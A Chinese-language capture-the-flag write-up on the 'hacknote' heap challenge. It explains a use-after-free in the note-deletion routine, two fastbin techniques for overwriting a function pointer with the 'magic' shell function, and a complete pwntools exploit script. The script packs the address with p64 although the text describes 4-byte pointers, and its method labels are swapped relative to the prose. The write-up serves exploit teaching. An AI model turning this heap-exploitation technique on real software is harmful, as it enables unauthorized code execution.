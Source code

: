 ## 0x001 程序分析

通过checksec查看程序开启的保护，可见只开启了NX保护。

![](1.png)

来分析下程序的main函数

![](2.png)

main函数中可以根据输入，进行3种操作，也就是堆的增加、删除、输出。

### add_note函数

![](3.png)

先看下add_note函数，函数中首先有个堆块的计数器 **count**，只允许创建5个堆块。

接下来有个堆管理表 **notelist**，判断其中是否有值，如果没有，就先创建一个8字节的堆块，暂且称该堆块为管理块，该管理块的前四个字节存放 **print_note_content** 函数的指针，然后输入使用堆块长度，创建相应大小的堆区，并将该堆区地址存入管理块的后四个字节，最后使用read函数接收输入，写入使用堆区。

![](6.png)

### del_note函数

![](4.png)

判断堆管理表 **notelist** 中相应的索引是否有值，如果有，就将对应的两个堆区释放。

### print_note函数

![](5.png)

判断堆管理表 **notelist** 中相应的索引是否有值，如果有，就将管理块的地址取出，调用管理块的前四个字节的 **print_note_content** 函数，参数为后四个字节的使用块地址。**print_note_content** 函数中调用puts函数打印。

## 0x002 漏洞分析

该程序的漏洞为Use After Free（UAF），也就是释放后重用漏洞。

因为在 **del_note** 函数中删除时，只使用了free释放堆空间，并没有将相关的地址设置为0，所以就算释放后，也可以再次访问到堆空间，就造成了释放后重用漏洞。

## 0x003 漏洞利用

根据上述的分析，每调用一次 **add_note** 函数新建note时，会申请两个堆区，一个是固定8字节，一个根据输入的大小确定。

### 第一个利用方式

第一个利用方式为fastbins double free。首先创建一个8字节的堆区，然后释放两次。
```
add_note(8, b"aaa")
del_note(0)
del_note(0)
```

此时堆区内容如下：

![](7.png)

在释放两次后，可以看到在 **fastbins** 中形成了闭环 **chunk0->chunk1->chunk0**，如果现在新建一个大于8字节的堆区时，8字节的管理区会先从 **fastbins** 中拿走 **chunk0** 当作管理区，此时 **fastbins** 中的内容会变成 **chunk1->chunk0**，那么这时在新建一个等于8字节的堆区时，就会将 **chunk1** 分为管理区，**chunk0** 分作使用区，此时向使用区中写入数据的话，也就是向 **chunk0** 的管理区写数据，就可以修改 **print_note_content** 函数指针为 **magic** 函数指针，那么在调用 **print_note** 输出 **chunk0** 的内容时，就会调用到 **magic** 函数，获取系统权限。

### 第二个利用方式

首先可以申请两个大于8字节的堆区，然后释放它们。
```
add_note(16, b"aaa")
add_note(16, b"aaa")
del_note(0)
del_note(1)
```

现在的堆区情况如下：

![](8.png)

可以看到，在两次释放之后四个堆块分到了 **fastbins** 的不同区中（这也是为什么要新建两个大于8字节的堆区）。在 **fastbins** 0x10分段中的两个地址为 **chunk0** 和 **chunk1** 的管理区，那么此时在申请一个等于8字节的 **chunk3** 时，就会将 **chunk1** 的管理区当作 **chunk3** 的管理区， **chunk0** 的管理区当作 **chunk3** 的使用区，那么现在对 **chunk3** 使用区
的操作就可以修改 **chunk0** 的管理区，将其中的 **print_note_content** 函数指针为 **magic** 函数指针，那么在调用 **print_note** 输出 **chunk0** 的内容时，就会调用到 **magic** 函数，获取系统权限。

最终两个利用方式的EXP如下：
```
from pwn import *

p = process("./hacknote")
elf = ELF("hacknote")

def add_note(size, payload):
    p.sendlineafter(b"Your choice :", str(1))
    p.sendlineafter(b"Note size :", str(size))
    p.sendlineafter(b"Content :", payload)

def del_note(idx):
    p.sendlineafter(b"Your choice :", str(2))
    p.sendlineafter(b"Index :", str(idx))

def print_note(idx):
    p.sendlineafter(b"Your choice :", str(3))
    p.sendlineafter(b"Index :", str(idx))

def getshell_1():
    add_note(16, b"aaa")
    add_note(16, b"aaa")
    del_note(0)
    del_note(1)

    add_note(8, p64(elf.symbols["magic"]))
    print_note(0)
    
def getshell_2():
    add_note(8, b"aaa")
    del_note(0)
    del_note(0)
    
    add_note(16, b"aaa")
    add_note(8, p64(elf.symbols["magic"]))
    print_note(0)

getshell_1()
p.interactive()
```